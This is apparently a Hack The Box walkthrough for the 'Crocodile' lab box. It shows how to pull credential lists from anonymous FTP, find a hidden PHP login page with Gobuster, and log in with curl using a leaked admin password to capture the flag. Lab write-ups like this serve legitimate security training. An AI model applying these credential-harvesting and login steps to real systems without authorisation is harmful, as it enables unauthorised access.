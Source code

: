 ## Introduction

In this tutorial, we’ll chain an anonymous FTP leak into a hidden web admin login on Hack The Box’s **Crocodile** box to retrieve the flag.

You’ll learn to:

- Enumerate FTP and download leaked credential files  
- Extract valid usernames/passwords  
- Use Gobuster to discover hidden web pages  
- Authenticate to a PHP login panel and capture the flag  

## Prerequisites

- Kali Linux (or any distro with `ftp`, `gobuster`, `curl`)  
- HTB VPN connection

---

## 1. FTP Enumeration

```bash
nmap -sC -sV -p 21,80 <IP>
ftp <IP>
# login: anonymous
dir
get allowed.userlist
get allowed.userlist.passwd
```

Inspect the lists:

```bash
cat allowed.userlist
cat allowed.userlist.passwd
```

## 2. Extract Credentials

From `allowed.userlist` + `.passwd`, find a valid pair (e.g. `admin / Supersecretpassword1`).

## 3. Discover Hidden Pages

```bash
gobuster dir \
  --url http://<IP>/ \
  --wordlist /usr/share/wordlists/dirb/common.txt \
  -x php,html
```

Look for `/login.php`.

## 4. Admin Login & Flag

```bash
curl -d "username=admin&password=Supersecretpassword1" \
     http://<IP>/login.php
```

You’ll be redirected to the Admin panel—your flag is displayed at the top.

---

## 5. Lessons Learned

- **Anonymous services** often leak credentials.  
- **Combine** leaked creds with web enumeration for full-chain exploits.  
- **Automate** with scripts in professional engagements.

---

🔗 **Repo & full write‑up:** https://github.com/keyfive5/obsidiansignal-htb-crocodile
